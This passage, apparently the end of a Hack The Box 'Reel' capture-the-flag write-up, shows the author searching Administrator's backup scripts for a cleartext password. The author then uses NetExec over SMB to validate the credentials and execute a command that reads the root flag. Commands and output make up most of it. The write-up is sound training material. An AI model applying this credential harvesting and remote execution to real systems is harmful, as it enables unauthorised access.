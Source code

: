Interestingly enough, next to the flag, there is a `Backup Scripts` directory which includes 6 files. If we search for the string "_password_", the `Administrator`'s cleartext password is revealed.

```bash
# log into ssh
$ ssh claire@10.10.10.77
# launch PowerShell
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>powershell
Windows PowerShell
Copyright (C) 2014 Microsoft Corporation. All rights reserved.
# move to the Backup Scripts directory
claire@REEL C:\Users\claire>cd ..\administrator
claire@REEL C:\Users\Administrator>cd desktop
claire@REEL C:\Users\Administrator\Desktop>dir
claire@REEL C:\Users\Administrator\Desktop>cd "Backup Scripts"
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users\Administrator\Desktop\Backup Scripts

11/02/2017  09:47 PM    <DIR>          .
11/02/2017  09:47 PM    <DIR>          ..
11/03/2017  11:22 PM               845 backup.ps1
11/02/2017  09:37 PM               462 backup1.ps1
11/03/2017  11:21 PM             5,642 BackupScript.ps1
11/02/2017  09:43 PM             2,791 BackupScript.zip
11/03/2017  11:22 PM             1,855 folders-system-state.txt
11/03/2017  11:22 PM               308 test2.ps1.txt
               6 File(s)         11,903 bytes
               2 Dir(s)   4,853,219,328 bytes free
# search files for credentials
PS C:\Users\Administrator\Desktop\Backup Scripts> type * | findstr 'password'
# admin password
$password="Cr4ckMeIfYouC4n!"
```

Finally, we can confirm the obtained credentials and read the flag.

{% code overflow="wrap" %}
```bash
# validate credentials
$ nxc smb 10.10.10.77 -u administrator -p 'Cr4ckMeIfYouC4n!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\administrator:Cr4ckMeIfYouC4n! (Pwn3d!)
# read the flag
$ nxc smb 10.10.10.77 -u administrator -p 'Cr4ckMeIfYouC4n!' -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\administrator:Cr4ckMeIfYouC4n! (Pwn3d!)
SMB         10.10.10.77     445    REEL             [-] WMIEXEC: Dcom initialization failed on connection with stringbinding: "ncacn_ip_tcp:10.10.10.77[49154]", please increase the timeout with the option "--dcom-timeout". If it's still failing maybe something is blocking the RPC connection, try another exec method
SMB         10.10.10.77     445    REEL             [+] Executed command via atexec
SMB         10.10.10.77     445    REEL             128<REDACTED>367
```
{% endcode %}

[^1]: Living Off The Land

[^2]: Elevation of Privileges

[^3]: Elevation of Privileges

[^4]: Living Off The Land

[^5]: Elevation of Privileges

[^6]: Living Off The Land
